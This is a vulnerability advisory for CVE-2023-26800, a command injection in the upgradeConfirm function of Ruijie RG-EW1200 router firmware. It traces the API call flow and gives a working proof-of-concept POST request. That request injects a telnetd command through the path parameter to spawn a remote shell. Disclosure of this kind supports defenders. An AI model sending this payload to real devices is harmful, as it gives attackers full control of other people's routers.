






# CVE-ID

[CVE-2023-26800](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-26800 "https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-26800")

# Information

**Vendor of the products:**    Ruijie Networks

**Vendor's website:**    [https://www.ruijienetworks.com](https://www.ruijienetworks.com "https://www.ruijienetworks.com")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>) & ShaLetian(<ltsha@njupt.edu.cn>)

**Affected products:**    RG-EW1200 Wireless Routers

**Affected firmware version:**    EW_3.0(1)B11P204 (the latest release version, 2023.1.18)

**Firmware download address:**    [https://www.ruijienetworks.com/support/documents/slide_77459](https://www.ruijienetworks.com/support/documents/slide_77459 "https://www.ruijienetworks.com/support/documents/slide_77459")

# Overview

`Ruijie Networks RG-EW1200 Wireless Routers EW_3.0(1)B11P204` was discovered to contain a `command injection vulnerability` via the `params.path` parameter in the `upgradeConfirm` function of `system.lua`. Successful exploit could allow the attacker to execute arbitrary commands on remote devices.

# Vulnerability details

## Vulnerability point

**The vulnerability was detected in the file `/usr/lib/lua/luci/modules/system.lua`.**

In the `upgradeConfirm` function of `/usr/lib/lua/luci/modules/system.lua`. When `params.isEstAll` is empty, the parameter `params.path` is directly spliced through the format string `%q` into the variable `_shell` without checking and execute as a parameter of `forkExec`.



Therefore, an attacker can inject arbitrary commands into `params.path` to gain control of the remote devices.

## Call flow

In the file `/usr/lib/lua/luci/controller/eweb/api.lua`, we can see `system.lua` corresponding `API` is `/system`.





Therefore, `system.lua` can be accessed via URL `/cgi-bin/luci/api/system`, and the request body can be posted as `json`.

In the `handle` function of `/usr/lib/lua/luci/utils/jsonrpc.lua`, use the `resolve` function to find the relevant function in `system.lua` corresponding to the `method` field of the `POST` request body. Then it calls `copcall` through `proxy` to run the function, and use the contents of `params` field as its parameter.



# Poc

Send the following as a `POST` request to the URL `/cgi-bin/luci/api/system`. 

```
{
	"method": "upgradeConfirm",
	"params": {
		"isPersist": "aaaa",
		"path": "`telnetd -p 8888 -l /bin/sh`"
	}
}
```

# Attack Demo

Use `BurpSuite` to send the above `POC`. From the echo information, we can judge that the command injection is successful.



At this point, we use the injection command `telnetd -p 8888 -l /bin/sh` to open the corresponding `telnet` port `8888`, and directly start the shell.

The attacker can log in to the remote device directly through `telnet` and control it entirely.


